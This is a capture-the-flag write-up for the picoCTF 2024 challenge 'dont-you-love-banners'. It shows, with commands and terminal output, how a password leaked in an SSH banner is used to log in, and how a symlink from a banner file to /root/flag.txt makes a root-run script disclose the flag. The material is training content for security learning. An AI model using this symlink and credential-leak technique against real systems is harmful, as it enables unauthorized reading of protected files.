 # dont-you-love-banners

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [Learning Outcome form the dont-you-love-banners](#learning-outcome)
- [References](#references)

## Challenge information
```
Level: Medium
Tags: General Skills, picoCTF 2024, shell, browser_webshell_solvable
Author: LOIC SHEMA / SYREAL

Description:
Can you abuse the banner?

The server has been leaking some crucial information on tethys.picoctf.net 61669. 
Use the leaked information to get to the server.

To connect to the running application use nc tethys.picoctf.net 64937. 
From the above information abuse the machine and find the flag in the /root directory.

Hints:
1. Do you know about symlinks?
2. Maybe some small password cracking or guessing
```
Challenge link: [https://play.picoctf.org/practice/challenge/437](https://play.picoctf.org/practice/challenge/437)

## Solution

### Get banner info

We begin by connecting to the leaky service
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/dont-you-love-banners]
└─$ nc tethys.picoctf.net 61669
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^C

```
We get a possible password (`My_Passw@rd_@1234`) in the OpenSSH banner.

### Connect to the application

Next, we connect to the application
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/dont-you-love-banners]
└─$ nc tethys.picoctf.net 64937                
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ 
```
After some googling and trial-and-error we find the additional answers:
- [DEFCON](https://defcon.org/)
- [John Draper](https://en.wikipedia.org/wiki/John_Draper)

### Enumeration

Now we can do some enumeration and search for the flag
```bash
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9 16:39 .
drwxr-xr-x 1 root   root     20 Mar  9 16:39 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7 17:25 banner
-rw-r--r-- 1 root   root     13 Feb  7 17:25 text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
player@challenge:~$ find / -type f -name [Ff]lag* 2> /dev/null
find / -type f -name [Ff]lag* 2> /dev/null
/root/flag.txt
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
player@challenge:~$ cat /root/flag.txt
cat /root/flag.txt
cat: /root/flag.txt: Permission denied
player@challenge:~$ ls -la /root/flag.txt
ls -la /root/flag.txt
-rwx------ 1 root root 46 Mar  9 16:39 /root/flag.txt
player@challenge:~$ 
```
We need to escalate our privileges to read the flag file.

### Privilege escalation

Let's check what else is in the `/root` directory
```bash
player@challenge:~$ cd /root
cd /root
player@challenge:/root$ ls -la
ls -la
total 16
drwxr-xr-x 1 root root    6 Mar  9 16:39 .
drwxr-xr-x 1 root root   29 Jul 13 07:29 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar  9 16:39 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py
player@challenge:/root$ cat script.py
cat script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt

player@challenge:/root$ 
```
Ah, this is the script that runs when we connect to the application.  
And it reads and prints the banner file.

### Create a symbolic link to the flag file

We can create a symbolic link to the flag file and it will be printed when we connect to the application
```bash
player@challenge:/root$ ln -f -s /root/flag.txt /home/player/banner
ln -f -s /root/flag.txt /home/player/banner
player@challenge:/root$ ls -l /home/player/banner
ls -l /home/player/banner
lrwxrwxrwx 1 player player 14 Jul 13 08:07 /home/player/banner -> /root/flag.txt
player@challenge:/root$ exit
exit
logout
What is the top cyber security conference in the world?
^C
```

### Get the flag

Finally, we connect to the application again and get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/dont-you-love-banners]
└─$ nc tethys.picoctf.net 64937
picoCTF{<REDACTED>}

what is the password? 
^C
```
 ## Learning Outcome

By completing the "Don't You Love Banners" challenge, you will learn:

1. **Information Gathering**: How to extract sensitive information from application banners.
2. **Password Authentication**: The importance of validating user credentials and understanding common password formats.
3. **Enumeration Techniques**: The process of listing files and directories to uncover hidden data or vulnerabilities.
4. **Privilege Escalation**: Techniques for gaining higher access privileges on a system through methods like symbolic links.
5. **Scripting Insight**: Understanding how Python scripts can be used to manage user authentication and access control.


For additional information, please see the references below.

## References

- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [ln - Linux manual page](https://man7.org/linux/man-pages/man1/ln.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [Wikipedia - John Draper](https://en.wikipedia.org/wiki/John_Draper)
- [Wikipedia - Phreaking](https://en.wikipedia.org/wiki/Phreaking)